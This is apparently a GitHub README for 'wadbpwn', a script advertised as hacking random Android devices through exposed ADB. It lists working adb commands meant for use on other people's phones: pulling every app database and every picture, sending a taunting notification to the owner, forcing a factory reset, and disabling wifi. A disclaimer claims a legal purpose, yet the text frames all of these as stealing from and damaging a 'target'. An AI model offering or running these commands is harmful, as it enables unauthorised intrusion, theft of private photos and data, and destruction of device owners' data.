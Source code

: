 # WADBPWN 

#### Hack a random android device with 100% guarantee to succeed within 1 second from  you launching the script.

##### The easiest methods that are the most effective methods

![Screenshot](https://nr1.nu/archive/wadbpwn/wadbpwn.gif)

### Get Started On Linux/MacOSX
 
    git clone https://github.com/wuseman/wadbpwn
    cd wadbpwn
    chmod +x wadb*
    bash ./wadbpwn.sh
    
    - Wait ~1 second
    
    Target has been pwned!

    Enjoy ;-)

### Get Started On Windows 10

    Install any linux distro from microsoft store and run commands above..


## Tips & Tricks made by wuseman

### Steal all databases from the device ( require root )

    which su &> /dev/null
    if [[ $? -eq "0" ]]; then
       adb pull /data/data/ /some/path
    else
       printf "* No root detected, just try another target..\n"
       exit 1
    fi

### Steal all pictures: 
##### A simple example: 

    PICS="$(adb shell 'su -c find / \( -name '*.png' -name '*.jpg*' \)')"
    for pictures in $PICS; do
       adb pull -p $PICS /some/folder
     done
    printf "Done..is it your lucky day? ;-)\n"

### Let the owner know that you have hacked him, send a push notice:

    adb shell am broadcast -a com.google.android.c2dm.intent.RECEIVE -n <your.app.package>/com.google.android.gms.gcm.GcmReceiver --es "You h4v3 b33n h3cked mat3" "hrhr!"

### For be an d*ck and do a factory reset of the device: 

    adb shell am broadcast -a android.intent.action.MASTER_CLEAR
    adb shell reboot 

### For be device owners hero for a day you should shut down the targets wifi connection, but why? 

    adb shell svc wifi disable

### System requirements

- Android Debug Bridge (adb) - Find more info about _adb_ [here](https://developer.android.com/studio/command-line/adb)

## Changelog

[Versions changelog](CHANGELOG.md).

## Authors: 

* **wuseman <wuseman@nr1.nu\>** 

## License

This project is licensed under the GNU General Public License v3.0 - see the [LICENSE.md](LICENSE.md) file for details


### Contact

  If you have problems, questions, ideas or suggestions please contact me on the e-email under _Authors_ or you can chat with me for faster contact by visit freenode chat and type '/msg wuseman hi!' in the input bar and I will reply you ASAP I will see the message.
  
  Enter Freenode chat via your own client or use the web client by visit this ![page](https://webchat.freenode.net/)

### Haters Gonna Hate

  wuseman cannot be held as responsible for users actions regardless of what damage a user can do. All users that  gathering information or data via wadbpwn is 100% responsible for their own actions, wadbpwn has been developed for a legal purpose.


